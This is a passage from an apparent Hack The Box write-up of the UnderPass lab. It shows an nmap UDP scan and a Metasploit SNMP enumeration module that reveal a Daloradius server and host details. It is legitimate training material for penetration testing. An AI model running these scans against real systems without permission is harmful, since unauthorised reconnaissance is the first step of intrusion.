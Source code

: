 
- Then I proceed to scan the IP address UDP ports of the lab, I found port 161 contains snmp service which can be exploited. `SNMP (Simple Network Management Protocol)` is an application layer protocol in TCP/IP model, used to manage and monitor all network devices and related funtions.

~~~
┌──(trit㉿chimp)-[~/HackTheBox/UnderPass]
└─$ nmap -sU -sC -sV --top-ports  100 10.10.11.48 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-27 11:01 EST
Nmap scan report for underpass.htb (10.10.11.48)
Host is up (0.040s latency).
Not shown: 97 closed udp ports (port-unreach)
PORT     STATE         SERVICE VERSION
161/udp  open          snmp    SNMPv1 server; net-snmp SNMPv3 server (public)
| snmp-info: 
|   enterprise: net-snmp
|   engineIDFormat: unknown
|   engineIDData: c7ad5c4856d1cf6600000000
|   snmpEngineBoots: 31
|_  snmpEngineTime: 4h49m18s
| snmp-sysdescr: Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
|_  System uptime: 4h49m17.93s (1735793 timeticks)
1812/udp open|filtered radius
1813/udp open|filtered radacct
Service Info: Host: UnDerPass.htb is the only daloradius server in the basin!

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 251.79 seconds
~~~

- Next I used `Metasploit` to exploit the server's `SNMP` service. Then I found out the server uses `Daloradius Server`.

~~~
┌──(trit㉿chimp)-[~/HackTheBox/UnderPass]
└─$ msfconsole

msf6 > use auxiliary/scanner/snmp/snmp_enum
msf6 auxiliary(scanner/snmp/snmp_enum) > set RHOSTS 10.10.11.48
RHOSTS => 10.10.11.48
msf6 auxiliary(scanner/snmp/snmp_enum) > run
[+] 10.10.11.48, Connected.

[*] System information:

Host IP                       : 10.10.11.48
Hostname                      : UnDerPass.htb is the only daloradius server in the basin!
Description                   : Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
Contact                       : steve@underpass.htb
Location                      : Nevada, U.S.A. but not Vegas
Uptime snmp                   : 05:08:57.20
Uptime system                 : 05:08:47.40
System date                   : 2025-1-27 16:08:39.0
~~~
